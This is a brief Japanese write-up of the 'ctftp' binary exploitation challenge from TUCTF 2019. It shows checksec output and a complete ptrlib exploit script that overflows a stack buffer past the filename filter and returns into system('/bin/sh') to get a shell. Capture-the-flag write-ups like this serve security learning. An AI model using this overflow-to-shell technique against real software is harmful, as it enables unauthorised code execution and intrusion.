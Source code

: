 # [pwn 497pts] ctftp - TUCTF 2019
NX以外無効です。
```
$ checksec -f ctftp
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   92 Symbols     No       0               10      ctftp
```
ファイル名を入力してダウンロードできますが、ファイル名として使える文字は限られています。とはいえStack Overflowがあり、オーバーフローした部分はフィルターの対象にならないので問題無いです。
```python
from ptrlib import *

elf = ELF("./ctftp")
sock = Process("./ctftp")

payload = b'dummy'
payload += b'\x00' * (0x4c - len(payload))
payload += p32(elf.plt('system'))
payload += p32(0xdeadbeef)
payload += p32(elf.symbol('username'))

sock.sendafter(": ", "/bin/sh\n")
sock.sendlineafter("> ", "2")
sock.sendafter(": ", payload)
sock.recvline()

sock.interactive()
```

# 感想
簡単ですね。